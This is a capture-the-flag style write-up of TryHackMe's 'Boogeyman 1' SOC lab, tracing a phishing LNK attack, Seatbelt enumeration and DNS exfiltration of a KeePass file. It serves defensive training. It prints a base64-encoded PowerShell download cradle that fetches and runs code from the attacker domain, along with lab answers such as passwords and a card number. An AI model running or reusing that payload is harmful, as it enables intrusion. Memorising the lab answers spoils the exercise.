# 🔍 Boogeyman 1 — Phishing & Exfiltration Investigation

## Investigation Summary
| Field | Details |
|---|---|
| **Platform** | TryHackMe |
| **Category** | SOC Investigation / Email Forensics / Network Analysis |
| **Tools Used** | lnkparse, tshark, Wireshark, CyberChef, KeePass |
| **MITRE ATT&CK** | T1566.001, T1059.001, T1020, T1048.003, T1555 |
| **Difficulty** | Medium |

---

## Scenario
Julianne, a finance employee at Quick Logistics LLC, received a follow-up email
regarding an unpaid invoice from their business partner, B Packaging Inc.
Unbeknownst to her, the attached document was malicious and compromised her
workstation. The security team flagged the suspicious execution of the attachment
alongside phishing reports from other finance employees — indicating a targeted
attack on the finance team attributed to a threat group named **Boogeyman**.

**Objective:** Analyse and assess the impact of the compromise.

---

## Stage 1 — Email Forensics

### Q1. What is the email address used to send the phishing email?

Examining the email artifacts, we look at the header first.



From the header we can see the sender's email address.



**Answer: agriffin@bpakcaging.xyz**

---

### Q2. What is the email address of the victim?

Based on the header, we can identify the recipient.

**Answer: julianne.westcott@hotmail.com**

---

### Q3. What is the name of the third-party mail relay service used by the attacker?

The email header reveals the DKIM-Signature details.



The List-Unsubscribe header confirms the mail relay service used.



**Answer: elasticemail**

---

### Q4. What is the name of the file inside the encrypted attachment?

Checking the body of the email, we see the attachment referenced.



Opening the invoice.zip file shows us what's inside.



**Answer: Invoice_20230103.lnk**

---

### Q5. What is the password of the encrypted attachment?

The password was included in the email body.



**Answer: Invoice2023!**

---

### Q6. What is the encoded payload found in the Command Line Arguments field?

Using lnkparse, we are able to see what this file is going to do.



To understand it further, let's find out what this encoded command actually is.



However, the question is looking for the encoded payload so we answer with the
base64 version.

**Answer:**
```
QBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0
ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwA
ZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

---

## Stage 2 — Host Forensics

### Q1. What are the domains used by the attacker for file hosting and C2?

Right now we have the PowerShell history of the infected host. Sorting by
timestamp to see the first few commands executed, we can see that the file
hosting domain is `files.bpakcaging.xyz`. That's where the attacker pulled
the file in the encoded LNK command. But we also find an interesting log
directing traffic to a second domain.





**Answer: cdn.bpakcaging.xyz, files.bpakcaging.xyz**

---

### Q2. What is the name of the enumeration tool downloaded by the attacker?

Looking through the logs we can see the attacker downloaded **sb.exe** and
started collecting information about the system and users. Then we see
**"Seatbelt"** appear. sb = seatbelt, an acronym.



**Answer: Seatbelt**

---

### Q3. What is the file accessed by the attacker using sq3.exe?

Based on the previous screenshot we know the attacker launched sq3 in the
Music folder before accessing AppData. Tracing back the change directory
commands reveals the full file path.



**Answer: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite**

---

### Q4. What is the software that uses the file in Q3?

Based on the file path and the command used, we can identify the software.



**Answer: Microsoft Sticky Notes**

---

### Q5. What is the name of the exfiltrated file?

Upon closer inspection and manually reading the logs past the sq3.exe
execution, we were able to find this.



**Answer: protected_data.kdbx**

---

### Q6. What type of file uses the .kdbx extension?

A quick Google search confirms that KeePass uses the .kdbx file extension.

**Answer: KeePass**

---

### Q7. What is the encoding used during the exfiltration attempt?

We know the variable set for the destination IP is `$destination`. Querying
that reveals the encoding used.





**Answer: hex**

---

### Q8. What is the tool used for exfiltration?

Based on the earlier screenshot, it used **nslookup** to resolve the IP of
the domain.

**Answer: nslookup**

---

## Stage 3 — Network Forensics

### Q1. What software is used by the attacker to host its file/payload server?

Filtering the network capture for `files.bpakcaging.xyz` reveals the software
used to host the payload server.



**Answer: Python**

---

### Q2. What HTTP method is used by the C2 for command output?

We know the C2 is using `cdn.bpakcaging`. Filtering for that, we can see it's
using **POST** for the output commands.



**Answer: POST**

---

### Q3. What is the protocol used during the exfiltration activity?

We already know from Stage 2 that it was using nslookup.

**Answer: DNS**

---

### Q4. What is the password of the exfiltrated file?

From the past stages we know it retrieved something from the NOTE table.
Following that stream gives us an obfuscated message.



Decoding that gives us the password in plaintext.



**Answer: %p9^3!lL^Mz47E2GaT^y**

---

### Q5. What is the credit card number stored inside the exfiltrated file?

Using tshark to extract only the packets during the exfiltration gives us
cleaner results.



After filtering out the noise we get something useful.



Saving the output as a file and opening it with the password from the previous
question reveals the contents.



**Answer: 4024007128269551**

---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|---|---|---|
| Phishing: Spearphishing Attachment | T1566.001 | Malicious .lnk delivered via encrypted zip attachment |
| Command and Scripting: PowerShell | T1059.001 | PowerShell used to download and execute payload |
| Automated Exfiltration | T1020 | protected_data.kdbx exfiltrated via DNS |
| Exfiltration Over Alternative Protocol | T1048.003 | DNS used as exfiltration channel via nslookup |
| Credentials from Password Stores | T1555 | KeePass database targeted and exfiltrated |

---

## IOCs

| Type | Value |
|---|---|
| Sender Email | `agriffin@bpakcaging.xyz` |
| File Hosting Domain | `files.bpakcaging.xyz` |
| C2 Domain | `cdn.bpakcaging.xyz` |
| Malicious File | `Invoice_20230103.lnk` |
| Zip Password | `Invoice2023!` |
| Enumeration Tool | `Seatbelt (sb.exe)` |
| Exfiltrated File | `protected_data.kdbx` |
| Exfiltration Method | `DNS via nslookup (hex encoded)` |
| Mail Relay | `elasticemail` |

---

## Key Takeaways

- **LNK files as phishing lures** — The attacker used an encrypted zip to
  bypass email scanning, with the password included in the email body. The
  .lnk file inside executed a PowerShell command on double-click — no macros
  needed. Encrypted attachments are a common AV bypass worth flagging at the
  gateway level.

- **Base64 → PowerShell chain** — The encoded payload in the LNK file decoded
  to a PowerShell download cradle pulling from the attacker's file server.
  Recognizing this pattern in logs is a core detection skill.

- **Seatbelt for enumeration** — Seatbelt is a well-known offensive security
  tool used for host reconnaissance post-compromise. Seeing `sb.exe` or
  Seatbelt in process logs is a strong indicator of post-exploitation activity.

- **Targeting password managers** — The attacker specifically went after
  `plum.sqlite` (Sticky Notes) and a KeePass database. Credential store
  targeting is a high-value post-exploitation step — worth monitoring file
  access patterns on sensitive AppData paths.

- **DNS exfiltration** — Using nslookup to exfiltrate hex-encoded data over
  DNS is a stealthy technique that bypasses many traditional data loss
  prevention tools. DNS traffic is often trusted and less scrutinized than
  HTTP — building DNS anomaly detection is a valuable blue team capability.

- **Python as a payload server** — The attacker hosted their payloads using
  Python's built-in HTTP server. Simple, fast, and leaves minimal traces.
  Seeing inbound connections to non-standard ports serving files is worth
  flagging in network monitoring.

---

## Notes and Thoughts

Great room overall. I got a bit stuck in Stage 2 figuring out the exfiltrated
file. I didn't catch it until I started manually reading through the logs
after the sq3.exe execution. I also had some time figuring out how tshark
works but AI helped in managing the query. Definitely a good reminder that
manual log review still catches things that filters miss.